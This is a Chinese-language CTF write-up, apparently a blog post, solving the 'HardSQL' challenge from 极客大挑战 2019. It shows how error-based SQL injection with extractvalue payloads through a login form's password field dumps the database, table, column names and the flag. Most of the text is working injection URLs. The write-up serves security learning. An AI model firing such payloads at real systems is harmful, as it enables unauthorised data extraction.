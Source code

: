 ```yaml
---
title: 极客大挑战 2019 HardSQL
date: 2022-05-28 22:18:38
toc: false
tags:
- CTF
- SQL注入
categories: CTF
my: HardSQL
---
```


看题目就是熟悉的SQL注入

尝试万能密码

![](https://nssctf.wdf.ink/img/xmj/image-20220528222128869.png)

尝试联合注入

![](https://nssctf.wdf.ink/img/xmj/image-20220528222128869.png)

尝试报错注入

![](https://nssctf.wdf.ink/img/xmj/image-20220528222245314.png)

发现注入点在password

爆出数据库名

```
/check.php?username=admin&password=admin'^extractvalue(1,concat(0x7e,(select(database()))))%23
```



![](https://nssctf.wdf.ink/img/xmj/image-20220528222336896.png)

爆出表名

```
/check.php?username=admin&password=admin'^extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where((table_schema)like('geek')))))%23
```

![](https://nssctf.wdf.ink/img/xmj/image-20220528222459600.png)

爆字段

```
/check.php?username=admin&password=admin'^extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where((table_name)like('H4rDsq1')))))%23
```

![](https://nssctf.wdf.ink/img/xmj/image-20220528222528162.png)

爆值

```
/check.php?username=admin&password=admin'^extractvalue(1,concat(0x7e,(select(password)from(H4rDsq1))))%23
```

![](https://nssctf.wdf.ink/img/xmj/image-20220528222545921.png)

这只有一半我们利用`left(),right()}`

```pgsql
/check.php?username=admin&password=admin%27^extractvalue(1,concat(0x7e,(select(left(password,30))from(H4rDsq1))))%23

```

![](https://nssctf.wdf.ink/img/xmj/image-20220528222950079.png)

```pgsql
/check.php?username=admin&password=admin%27^extractvalue(1,concat(0x7e,(select(right(password,30))from(geek.H4rDsq1))))%23
```

![](https://nssctf.wdf.ink/img/xmj/image-20220528222958839.png)

这里注意观察中间有重复部分去掉后拼接到一起就是flag
